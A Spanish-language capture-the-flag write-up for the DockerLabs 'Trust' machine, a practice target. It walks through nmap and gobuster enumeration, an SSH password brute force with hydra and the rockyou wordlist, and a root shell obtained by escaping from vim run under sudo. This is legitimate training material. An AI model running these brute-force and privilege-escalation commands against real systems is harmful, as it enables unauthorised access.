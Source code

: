 # Trust DockerLabs

***

## 1 - Reconocimiento

#### P1 - Verificar conectividad

```Shell
ping -c 1 172.18.0.2
```

<figure><img src="../.gitbook/assets/Trust - Conectividad.jpg" alt=""><figcaption></figcaption></figure>

#### P2 - Escaneo de puertos con nmap

```Shell
nmap -p- --open --min-rate=5000 -sS -n -Pn 172.18.0.2
```

<figure><img src="../.gitbook/assets/Trust - Escaneo de puertos.jpg" alt=""><figcaption></figcaption></figure>

## 2 - Enumeración

#### P1 - Scripts basicos de reconocimiento y versiones de los servicios

```Shell
nmap -sCV -p22,80 172.18.0.2
```

<figure><img src="../.gitbook/assets/Trust - Versiones de servicios, Scripts basicos.jpg" alt=""><figcaption></figcaption></figure>

#### P2 - Enumeración de directorios y archivos

> Vemos que tenemos el puerto 80 (http) expuesto, veamos que hay en la pagina web

<figure><img src="../.gitbook/assets/Trust - Pagina web (1).jpg" alt=""><figcaption></figcaption></figure>

> Nos encontramos con la pagina web por defecto de apache2, esto nos dice que es un servidor web apache2 recien instalado, como no hay nada en la pagina raiz veamos que hay en los demas directorios

```Shell
sudo gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://172.18.0.2/" -x .txt,.php,.py,.sh
```

> En este caso he usado gobuster para la enumeración de directorios, pero tambien podrias usar otra herramienta como dirbuster que es la recomendada por INE para la EJPTv2

<figure><img src="../.gitbook/assets/Trust - gobuster.jpg" alt=""><figcaption></figcaption></figure>

> Entre los directorios encontrados, el unico directorio con codigo de estado 200 (exitosa) es /secret.php , vayamos a investigar que hay en ese directorio

<figure><img src="../.gitbook/assets/Trust - Directorio secreto.jpg" alt=""><figcaption></figcaption></figure>

> Dentro del directorio nos encontramos con un potencial usuario llamado Mario que mas tarde nos puede ser de gran ayuda para entrar por SSH a la maquina

#### P3 - Enumeración del servicio SSH

```Shell
ssh Mario@172.18.0.2
```

> Al intentar acceder a la máquina víctima mediante SSH, se nos solicita una contraseña. Hemos probado varias contraseñas comunes como "admin", "root", "password", etc. Pero ninguna ha funcionado. Para optimizar este proceso en el siguiente paso probaremos un ataque de fuerza bruta con hydra

## 3 - Explotación

#### P1 - Fuerza bruta con hydra

```Shell
hydra -l Mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

> Tras un rato esperando vemos que hydra no logra encontrarnos la contraseña correcta para el usuario Mario, asi que probemos con mario en minuscula

```Shell
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

<figure><img src="../.gitbook/assets/Trust - Hydra.jpg" alt=""><figcaption></figcaption></figure>

> Parece que hydra nos encontró la contraseña chocolate para el usuario mario, probemoslo

<figure><img src="../.gitbook/assets/Trust - ssh.jpg" alt=""><figcaption></figcaption></figure>

> Funciono, estamos dentro de la maquina, en el siguiente paso veremos como escalar privilegios con ayuda del comando sudo -l

## 4 - Escalada de privilegios

#### P1 - Sudo -l

```Shell
sudo -l
```

> Con ayuda del comando sudo -l podemos ver qué comandos podemos ejecutar con privilegios de superusuario, en este caso nos pone que podemos utilizar vim

<figure><img src="../.gitbook/assets/Trust - sudo -l.jpg" alt=""><figcaption></figcaption></figure>

> Ahora que sabemos que podemos utilizar vim como sudo, podemos probar a abrirlo

```
sudo /usr/bin/vim
```

> Podemos aprovechar para crearnos una shell con vim usando el siguiente comando

```
:!/bin/bash
```

<figure><img src="../.gitbook/assets/Trust - Shell root.jpg" alt=""><figcaption></figcaption></figure>

> Ya somos root

***
